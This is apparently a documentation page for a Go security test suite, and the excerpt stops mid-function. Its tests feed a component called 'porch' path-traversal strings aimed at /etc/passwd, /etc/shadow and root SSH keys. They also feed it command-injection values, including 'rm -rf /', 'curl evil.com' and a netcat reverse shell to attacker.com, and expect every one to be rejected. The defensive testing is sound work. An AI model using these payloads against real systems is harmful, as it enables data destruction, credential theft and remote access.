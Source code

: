 #### Security Testing Framework

**Security Test Categories**:
```go
// Security test categories for comprehensive coverage
const (
    SecurityTestInput        = "input_validation"
    SecurityTestCommand      = "command_injection"
    SecurityTestPath         = "path_traversal"
    SecurityTestResource     = "resource_exhaustion"
    SecurityTestAuth         = "authentication"
    SecurityTestCrypto       = "cryptography"
    SecurityTestConcurrency  = "concurrency_safety"
)

type SecurityTestSuite struct {
    Component   string
    Version     string
    TestResults map[string]SecurityTestResult
}
```

**Example Security Tests**:
```go
func TestSecurityPathTraversal(t *testing.T) {
    maliciousPaths := []string{
        "../../../etc/passwd",
        "..\\..\\windows\\system32\\config",
        "/etc/shadow",
        "../../../../root/.ssh/id_rsa",
        "..%2F..%2F..%2Fetc%2Fpasswd",
    }
    
    for _, path := range maliciousPaths {
        t.Run(fmt.Sprintf("path_%s", path), func(t *testing.T) {
            intent := map[string]interface{}{
                "intent_type": "scaling",
                "target":      path,
                "namespace":   "default",
                "replicas":    3,
            }
            
            result := processIntentSecurely(intent)
            
            // Should reject malicious paths
            assert.False(t, result.Success)
            assert.Contains(t, result.Error, "path validation failed")
            
            // Should not create files outside allowed directories
            assertNoPathTraversal(t, allowedBasePath)
        })
    }
}

func TestSecurityCommandInjection(t *testing.T) {
    maliciousCommands := []string{
        "porch; rm -rf /",
        "porch && cat /etc/passwd",
        "porch | curl evil.com",
        "porch; nc -e /bin/sh attacker.com 4444",
        "`curl evil.com`",
    }
    
    for _, cmd := range maliciousCommands {
        t.Run(fmt.Sprintf("command_%s", cmd), func(t *testing.T) {
```